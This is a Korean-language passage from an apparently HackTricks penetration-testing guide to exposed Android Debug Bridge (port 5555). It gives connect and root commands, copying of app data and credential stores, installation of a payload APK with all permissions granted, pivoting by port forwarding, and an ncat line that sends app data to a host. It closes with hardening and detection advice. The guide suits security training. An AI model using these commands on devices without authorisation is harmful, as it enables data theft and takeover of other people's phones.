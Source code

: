 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb)는 Android 기반 장치 및 에뮬레이터와 통신하기 위한 명령줄 도구입니다. 일반적인 작업에는 패키지 설치, 디버깅 및 장치에서 대화형 Unix 셸을 얻는 것이 포함됩니다.

- 역사적 기본 TCP 포트: 5555 (클래식 "adb tcpip" 모드).
- 현대 무선 디버깅 (Android 11+)은 TLS 페어링 및 mDNS 서비스 검색을 사용합니다. 연결 포트는 동적이며 mDNS를 통해 발견됩니다; 5555가 아닐 수 있습니다. 페어링은 adb pair host:port 다음에 adb connect로 수행됩니다. 공격적 의미에 대한 주석은 아래를 참조하십시오.

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connect

ADB가 노출되어 있고 접근 가능하다면, 빠르게 연결하고 열거해 보세요:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- 만약 장치가 ADB 인증을 강제하는 경우 (ro.adb.secure=1), 사전 인증(USB RSA 인증)이 필요하거나 Android 11 이상의 무선 디버깅 페어링을 사용해야 합니다(이는 장치에 표시된 일회성 코드가 필요합니다).
- 일부 벤더 이미지, 엔지니어링/사용자 디버그 빌드, 에뮬레이터, TV, STB 및 개발 키트는 인증 없이 또는 adbd가 루트로 실행되는 상태로 adbd를 노출합니다. 이러한 경우, 일반적으로 셸 또는 루트 셸에 직접 접근하게 됩니다.

일반 ADB 명령 참조는 다음을 참조하십시오:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## 빠른 포스트 익스플로잇

셸에 접근한 후, 권한 및 SELinux 컨텍스트를 검증하십시오:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### 데이터 열거 및 캡처

- 서드파티 앱 및 경로 나열:
```bash
pm list packages -3
pm path <pkg>
```
- 루트 권한이 있는 경우 (adb root 또는 su 사용 가능), /data에 직접 접근할 수 있습니다. 그렇지 않으면 디버깅 가능한 앱에 대해 run-as를 사용하는 것이 좋습니다:
```bash
# 루트 없이, 디버깅 가능한 앱의 경우
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# 루트가 있는 경우
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- 유용한 시스템 아티팩트 (루트 필요):
- /data/system/users/0/accounts.db 및 관련 AccountManager 데이터
- /data/misc/wifi/ (구버전의 네트워크 구성/키)
- /data/data/<pkg> 아래의 앱 전용 SQLite DB 및 shared_prefs

이를 사용하여 민감한 정보를 검색할 수 있습니다 (예: 앱 비밀). Chrome 데이터 고려 사항에 대한 노트는 [여기](https://github.com/carlospolop/hacktricks/issues/274)에서 참조하십시오.

### 코드 실행 및 페이로드 전달

- 런타임 권한 설치 및 자동 부여:
```bash
adb install -r -g payload.apk         # -g는 매니페스트에 선언된 모든 런타임 권한을 부여합니다
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- 활동/서비스/브로드캐스트를 직접 시작:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### 포트 포워딩 및 피벗팅

루트 없이도 adb는 로컬 포트를 장치 포트로, 장치 포트를 로컬 포트로 포워딩할 수 있습니다. 이는 장치에서 로컬로 바인딩된 서비스에 접근하거나 공격자 서비스를 장치에 노출하는 데 유용합니다.

- 호스트->장치 포워딩 (호스트에서 장치 로컬 서비스에 접근):
```bash
adb forward tcp:2222 tcp:22       # 장치가 SSH를 실행하는 경우 (예: Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # 앱의 로컬 디버그 서버 노출
```
- 장치->호스트 역방향 (장치가 호스트의 서비스에 접근):
```bash
adb reverse tcp:1080 tcp:1080     # 장치 앱이 이제 127.0.0.1:1080으로 호스트:1080에 접근할 수 있습니다
```
- 소켓을 통한 파일 유출 (sdcard 쓰기 없음):
```bash
# 호스트에서: 수신 대기
ncat -lvp 9000 > dump.tar
# 장치에서: tar로 디렉토리 전송 (루트 또는 run-as 적용 가능)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## 무선 디버깅 (Android 11+)

현대 Android는 장치 측 페어링 및 mDNS 검색을 통해 TLS로 보호된 무선 디버깅을 구현합니다:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
노트
- 포트는 동적입니다; 5555를 가정하지 마십시오. mDNS 서비스 이름은 다음과 같습니다:
- _adb-tls-pairing._tcp (페어링)
- _adb-tls-connect._tcp (페어링된 연결)
- _adb._tcp (레거시/일반)
- mDNS가 필터링되면, 일부 빌드에서는 고전 USB 지원 활성화가 여전히 작동할 수 있습니다: `adb tcpip 5555` 다음 `adb connect <ip>:5555` (재부팅 전까지).

공격적 의미: 장치 UI와 상호작용할 수 있다면 (예: 물리적 접근 또는 모바일 MDM 잘못 구성) 무선 디버깅을 활성화하고 페어링 코드를 볼 수 있습니다. 이 경우 케이블 없이 장기적으로 페어링된 ADB 채널을 설정할 수 있습니다. 일부 OEM은 페어링 없이 엔지니어링/개발 이미지에서 TCP를 통해 ADB를 노출합니다—항상 확인하십시오.

## 강화 / 탐지

수비자는 도달 가능한 adbd (TCP)가 중요한 위험이라고 가정해야 합니다.

- 필요하지 않을 때 ADB 및 무선 디버깅을 비활성화하십시오. 개발자 옵션에서 USB 디버깅 권한을 취소하십시오.
- 신뢰할 수 없는 세그먼트에서 수신 TCP/5555 및 mDNS 기반 ADB 검색을 차단하는 네트워크 정책을 보장하십시오.
- 귀하의 제어 하에 있는 장치에서:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP 수신 비활성화 (또는 사용: adb usb)
stop adbd; start adbd             # 데몬 재시작
```
- 기업 네트워크에서 mDNS 레코드 `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp`를 모니터링하고 예상치 못한 5555 리스너에 대한 경고를 설정하십시오.
- 불안전한 빌드에 대한 인벤토리: `getprop ro.debuggable`, `ro.build.type`, 및 `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## 참조

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}

